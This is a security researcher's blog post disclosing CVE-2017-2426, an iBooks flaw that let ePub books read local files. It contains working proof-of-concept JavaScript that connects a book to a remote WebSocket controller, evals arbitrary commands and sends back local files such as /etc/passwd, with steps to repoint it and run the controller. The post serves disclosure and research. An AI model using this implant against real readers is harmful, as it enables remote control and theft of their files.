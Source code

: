 ```yaml
---
layout: post
title:  "This book reads you - using JavaScript"
date:   2017-03-27 12:00:00
categories: ibooks epub
---
```


> "Yes, books are dangerous. They should be dangerous - they contain ideas." - Pete Hautman

On a previous post about ePub parsers ([This book reads you - exploiting services and readers that support the ePub book format](/epub/2017/01/25/This-book-reads-you.html)), I mentioned using scripting capabilities in ePub to perform local attacks against users. 

Apple just released a fix for one issue I reported last year in iBooks that allowed access to files on a users system when a book was opened. iBooks on El Capitan would open an ePub using the file:// origin, which would allow an attacker to access the users file system when they opened a book. ([CVE-2017-2426](https://support.apple.com/en-us/HT207615))

To help demonstrate how this could be used to perform attacks against users, I added a WebSocket client to a book, so that all users who open the  book will connect back to a WebSocket controller server that will feed them arbitrary instructions. The WebSocket client in the ePub will allow access as long as the user has the book open (expectation is that it could be open for a long time, if the user is provided with something worth reading).

eg., Sending a book to a user:
![Image](/assets/ibooks/email.png)

iBooks connects to the WebSocket Controller when opening the book:
![Image](/assets/ibooks/ibooks.png)

iBooks connecting back to a WebSockets Controller. Local files can be retrieved if the reader is vulnerable to CVE-2017-2426 (file:// origin):
![Image](/assets/ibooks/controller.png)

Video demo of how this works (trying to type with one hand):

<p><iframe src="https://player.vimeo.com/video/210000247" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe></p>

This is the POC book if you want to try it yourself. You can open it in a reader like Apple iBooks or Adobe Digital Editions. 

<a href="/assets/controller/POC.epub">![Image](/assets/ibooks/ibooksico.png)</a>

Disclaimer: The POC connects to my controller, but I promise not to do anything bad. 😉

#### To modify it to point to your own controller:

* __curl https://s1gnalcha0s.github.io/assets/controller/POC.epub -o poc.epub__

* __unzip poc.epub; rm poc.epub__

eg., contents of poc.epub/EPUB/js/main.js 
{% highlight javascript %}
WebSocketController = 'ws://websocket-controller.herokuapp.com:80';

var socket = new WebSocket(WebSocketController, 'echo-protocol');
socket.onopen = function(evt) { onopen() };
socket.onmessage = function(msg) { onmessage(msg) };
socket.onclose = function(evt) { onerror() }

function onopen()
{
  message('Connected to WebSocket Controller: ' + WebSocketController);
}

function onerror()
{
  message('Unable to connect to WebSocket Controller: ' + WebSocketController);
}

function onmessage(msg)
{
  //just eval anything sent from the controller
  response = eval(msg.data);

  //send response back to controller
  socket.send(response);
}

function get(loc) {
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open('GET', 'file://' + loc,false);
  xmlhttp.send();
  
  //populate the message element
  message(xmlhttp.responseText);

  return xmlhttp.responseText;
}

function message(message) {
  document.getElementById("message").innerText = message;
  return message;
}

function showExfil() {
  get('/etc/passwd');
}
{% endhighlight %}

* __zip -r poc.epub *__

#### Node.js WebSocket Controller:

* curl https://s1gnalchaos.github.com/assets/controller/server.js -o server.js
* npm install websocket
* node server.js

Disclosure timeline stuff:

* Dec 2016: Reported to Apple.
* Mar 2017: Fix release, and this post.

Shoutouts:

[@shhnjk](https://twitter.com/shhnjk) reported CVE-2017-2426 as well around the same time 👍. 
<br>[@mccabe615](https://twitter.com/mccabe615) ran a POC to help me confirm some issues independently. 

Thanks for reading. 👋 

[@craig](https://twitter.com/craig_arendt)